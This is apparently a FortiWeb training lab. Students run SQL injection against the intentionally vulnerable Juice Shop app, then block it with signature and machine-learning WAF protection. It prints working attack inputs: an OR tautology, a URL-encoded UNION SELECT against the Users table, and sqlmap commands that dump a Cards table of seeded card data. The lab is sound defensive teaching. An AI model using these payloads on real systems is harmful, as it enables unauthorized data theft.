# Lab 6: SQL Injection

According to the Open Worldwide Application Security Project (OWASP):

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
You can find more information at "https://owasp.org/www-community/attacks/SQL_Injection"

### Task 1: Perform a simple SQL injection attack

For this task, we will just use a simple Browser. This can be done directly from your desktop.

1. Now let’s Navigate to the browser and type the Public IP assigned to your FortiWeb instance to get to the web browser. http://FortiWebIP:3000
2. Let’s perform a SQLi attack. To perform a SQLi attack append ```?name=' OR 'x'='x``` to your URL.

    Your URL will be similar to: http://35.192.193.224:3000/?name=' OR 'x'='x

3. Hit ENTER. It proves our website is vulnerable to SQLi attacks. Let's try another one. Append the following text to website's URL:

    ```/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--```

    Your URL will be similar to: http://35.192.193.224:3000/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

3. Hit ENTER and you will see a list of SQL Users

    

### Task 2: Protect WebServer from Attack

1. We will now attach the FortiWeb protection profile to Juice Shop
2. Go to **Policy** > **Server Policy** > Edit **SP_JuiceShop**
3. Scroll down to **Web Protection Profile**, make sure **WP_JuiceShop** is selected and click the pencil 

    

4. In **Signatures** select **Standard Protection** and click **OK** twice

    

5. Repeat the same step to perform SQLi attack in the browser.

    For example: http://35.192.193.224:3000/?name=' OR 'x'='x

6. You will see FortiWeb blocking it:

    


## Lab Extra 02 - Attack Dig Deeper

Now that we have done a simple SQL injection attack (in Lab Extra 01), let's take a deeper dive into some of the tools that an actual hacker (or Red Team) might actually use to attack an application.

### Task 1: Use Burp Suite to find a vulnerability

Burp Suite gives us a quick and easy way to query targeted sites.

1. Log into Kali using the public IP from Student Resources. `https://kali-pip/vnc.html`

2. As usual, accept certificate errors and proceed. When prompted, click Connect. This will take you to the home screen of Kali

3. At the bottom of the page, click on the terminal icon (black box). Once open, input:

    ```
    burpsuite
    ```

4. Burp Suite will pop up. Accept all of the warnings and EULAs. Leave Temporary Project selected and click Next

    

5. Leave "Use Burp defaults" selected and click **Start Burp**.

    

6. Accept the warning that Burp Suite is out of date and then select **Settings** at the top right of the screen.

    

7. In the settings menu, select **Burp's browser**. Under **Browser running** check the box for "**Run Burp's browser without a sandbox**"

    

    !!! tip
        Note: Once the button is clicked, just close the settings menu. There is no need to save.
    
8. Click on the **Proxy** tab at the top of the Burp Suite screen. This will bring you to the Intercept screen. Click on **Open Browser**

    

9. In the browser URL bar, input http://fortiweb-public-ip:3000 and hit enter. This will bring you to the **Unhackable Juice Shop** home page.

10. Minimize the browser and click on the **HTTP History** tab under Proxy. Scroll down the list until you find a URL labeled "**/rest/products/search?q=**". Select this line and right click. Then click on **Send to Repeater**. This will allow us to manipulate the requests in order to do a little nefarious recon.

    

11. At the top of Burp Suite, Click on the **Repeater** Tab. You will see the request we just sent. Now click on the **Send** Button. This will populate the **Response** area.

    

12. Now we are going to modify our query a bit. Click on the first line in the **Raw** request and add ```'--``` to our get request after. The GET should now look like **/rest/products/search?q='--**. Click **Send**. We will now see an error in the **Response** section. This error tells us that the database is **SQLITE** and uncovers a vulnerability.

    

    !!! warning
        Note: It's worth mentioning that the standard signature based Web Protection Profile did not catch this injection attempt. We will see that this same type of attempt is caught using ML below.
    
### Task 2: Turn off Web Protection Profile
1. Before we we can use SQLMAP to scan our application, we must disable the Web Protection Profile in our FortiWeb Policy. Navigate to **Policy** > **Server Policy** and edit **SP_JuiceShop**. 

2. Click the drop down next to **Web Protection Profile** and turn off select the blank box at the top. Click **OK**.

    

### Task 3: Use SQLMAP to exploit vulnerability

1. We will now use the information gained above along with sqlmap to see if we can get some "Juicy" information (pun intended). You could run SQLMAP initially to find the vulnerability, but it would take much longer without an idea of what you were looking for.

2. Open a terminal on Kali, and take a look at the SQLmap help page. I also think it's helpful to use bash shell here, as we will want to be able to use the up arrow in order to scroll though old commands

    ```
    bash 
    sqlmap -h 
    ```

3. Now we will find exactly which type of SQL injection exists. Since we know that the database runs on **sqlite** we can shorten the scan time by giving sqlmap that information. Input the first line below at the terminal, substituting with your **FortiWeb Public IP**.


    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q="  --dbms=SQLite --technique=B --level 3 --batch
    ```

    ```plaintext
    ...[SNIP]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: q (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
    ---
    ...[SNIP]...
    ```


4. Now we can have sqlmap figure out a list of all tables in the database. We will speed up the request by adding the **--threads 10** to allow sqlmap to send 10 concurrent requests

    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q="  --technique=B --tables --threads 10
    ```

    ```plaintext
    <current>
    [20 tables]
    +-------------------+
    | Addresses         |
    | BasketItems       |
    | Baskets           |
    | Captchas          |
    | Cards             |
    | Challenges        |
    | Complaints        |
    | Deliveries        |
    | Feedbacks         |
    | ImageCaptchas     |
    | Memories          |
    | PrivacyRequests   |
    | Products          |
    | Quantities        |
    | Recycles          |
    | SecurityAnswers   |
    | SecurityQuestions |
    | Users             |
    | Wallets           |
    | sqlite_sequence   |
    +-------------------+
    ```


5. Now that we know what tables are available, we can start extracting information. For our example here, the **Cards** table looks interesting. Let's see if we can pull something useful from there.

    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
    ```

    ```plaintext
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] N
    Database: <current>
    Table: Cards
    [6 entries]
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    | id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    | 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
    | 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
    | 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
    | 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
    | 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
    | 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    ```

6. In the next Lab you will protect the application using ML


## Lab Extra 03 - ML Anomaly Detection

We will use the same SQL injection from the Burp Suite exercise in Lab Extra 02 above. As we will see, FortiWeb Machine Learning (ML) will successfully block this attack. Using ML, FortiWeb creates a statistical data model based on "normal" observed traffic. This occurs during an initial learning period. As discussed at the beginning of Class, any request that falls outside of this statistical distribution is considered an anomaly and will be passed to the second layer of ML, which is the FortiGuard powered Threat Engine. In a production environment, it is highly recommended to turn on **both** the **Signature** based Web Protection Profile and **ML**, as this gives the best opportunity to catch both known and unknown attacks.

1. Go to the below Github repo:

    ``` https://github.com/FortiLatam/juiceshop/blob/main/helpers/JuiceShop_.MLanomaly.dat ```

2. Download the .dat file:

    

3. Because we are using a pre-trained data model based on a wildcard url, we will need to use a domain name. For this test, we are going to edit the **/etc/hosts** file on Kali. This will allow us to locally resolve **student.fwebtraincse.com**. Open a new Terminal and use the directional arrows on your keyboard to navigate. When you get to the bottom of the hosts file, input **fortiweb-public-ip** **student.fwebtraincse.com**. Use INSERT to start editing the file. To exit saving the file: ESC then type ```wq!``` and ENTER. To exit without saving: ESC then type ```q!``` and ENTER

    

4. Let's add Machine Learning to our Server Policy. In FortiWeb, navigate to **Policy** > **Server Policy** and edit **SP_JuiceShop**. Scroll down and expand the Machine Learning section. Under **Anomaly Detection** click on the **+** icon and enter **student.fwebtraincse.com** Click **OK**

    

5. Once the previous step is completed, we will see a few icons. Click the **Import** icon.

    

6. Once the pop-up opens, click on browse. Find and select the .dat file we downloaded earlier and then Click **OK**.

7. In FortiWeb, navigate to **Web Protection** > **ML Based Anomaly Detection** and edit the first entry. You should see a screen like below. Click on the **"*.fwebtraincse.com"** link.

    

8. Select the **Tree View** tab and expand the domain menu as shown and click on search. You should see the parameter "**q**" as **Running**

    

9. Go back to Kali and open **Burp Suite Proxy** > **Intercept** and click on **Open browser** in the new browser window, input the URL, using the DNS name from earlier:


    ```http://student.fwebtraincse.com:3000```

10. Back in the Burp Suite window click on **Proxy** > **HTTP history** scroll through until you find a host entry with the **full DNS Name** and the the url **/rest/products/search?q=***. Right click and select **Send To Repeater**

11. From the **Repeater** tab. Edit the first entry again, adding '--. In the **Response** section, you will see a **"500 Internal Server Error"**. If you scroll down to the bottom, you can see **Attack ID** and other information in the **Block Notification**.

    

12. From FortiWeb, navigate to **Dashboard** > **FortiView Threats** and double clcik on the SQL Injection Threat.

    

13. Drill into the threat log using double click. You will ultimately come to the **Log Details** screen, where you can see that this was blocked by **Machine Learning**.

    


**Congratulations!**
Congratulations, you have successfully completed this lab. Your environment will automatically delete itself at the end of the alloted lab time.


